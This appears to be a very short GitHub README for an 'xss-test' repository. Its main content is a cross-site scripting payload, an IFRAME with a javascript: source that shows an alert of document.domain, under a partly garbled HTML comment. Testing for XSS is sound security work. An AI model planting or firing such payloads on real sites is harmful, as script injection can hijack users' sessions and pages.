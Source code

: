 # xss-test
xss



```
  
<!--   :  :// . . / /sagaryadav8742/ -->

<IFRAME SRC="javascript:javascript:alert(document.domain);"></IFRAME>


```
